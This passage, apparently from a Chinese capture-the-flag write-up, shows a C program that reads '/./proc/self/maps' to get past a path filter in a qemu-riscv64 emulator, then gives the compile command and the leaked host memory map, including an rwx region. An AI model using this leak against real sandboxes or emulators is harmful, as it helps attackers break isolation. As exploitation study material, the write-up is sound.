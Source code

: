 ```c
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
int main(){
    char buf[0x1000]={0};
    int fd = openat(0,"/./proc/self/maps",0);
    read(fd,buf,0x1000);
    write(1,buf,0x1000);
}
```

成功绕过：

```c
$ riscv64-linux-gnu-gcc -static test.c -o test
$ ./qemu-riscv64 ./test
00010000-0006e000 r--p 00000000 00:37 5110                               /mnt/hgfs/riscv/memtest/test
0006e000-0006f000 r--p 0005d000 00:37 5110                               /mnt/hgfs/riscv/memtest/test
0006f000-00071000 rw-p 0005e000 00:37 5110                               /mnt/hgfs/riscv/memtest/test
00071000-00094000 rw-p 00000000 00:00 0 
4000000000-4000001000 ---p 00000000 00:00 0 
4000001000-4000801000 rw-p 00000000 00:00 0 
55f8e252b000-55f8e2994000 r-xp 00000000 00:37 5094                       /mnt/hgfs/riscv/memtest/qemu-riscv64
55f8e2b93000-55f8e2bcf000 r--p 00468000 00:37 5094                       /mnt/hgfs/riscv/memtest/qemu-riscv64
55f8e2bcf000-55f8e2bfb000 rw-p 004a4000 00:37 5094                       /mnt/hgfs/riscv/memtest/qemu-riscv64
55f8e2bfb000-55f8e2c18000 rw-p 00000000 00:00 0 
55f8e2d5d000-55f8e2e06000 rw-p 00000000 00:00 0                          [heap]
7f2d7c000000-7f2d83fff000 rwxp 00000000 00:00 0 
7f2d83fff000-7f2d84000000 ---p 00000000 00:00 0 
7f2d84000000-7f2d84021000 rw-p 00000000 00:00 0 
7f2d84021000-7f2d88000000 ---p 00000000 00:00 0 
7f2d8b0fb000-7f2d8b17c000 rw-p 00000000 00:00 0 
7f2d8b17c000-7f2d8b17d000 ---p 00000000 00:00 0 
7f2d8b17d000-7f2d8b982000 rw-p 00000000 00:00 0 
7f2d8b982000-7f2d8b983000 r--p 00000000 08:05 1050756                    /usr/lib/x86_64-linux-gnu/libdl-2.31.so
7f2d8b983000-7f2d8b985000 r-xp 00001000 08:05 1050756                    /usr/lib/x86_64-linux-gnu/libdl-2.31.so
7f2d8b985000-7f2d8b986000 r--p 00003000 08:05 1050756                    /usr/lib/x86_64-linux-gnu/libdl-2.31.so
7f2d8b986000-7f2d8b987000 r--p 00003000 08:05 1050756                    /usr/lib/x86_64-linux-gnu/libdl-2.31.so
7f2d8b987000-7f2d8b988000 rw-p 00004000 08:05 1050756                    /usr/lib/x86_64-linux-gnu/libdl-2.31.so
```

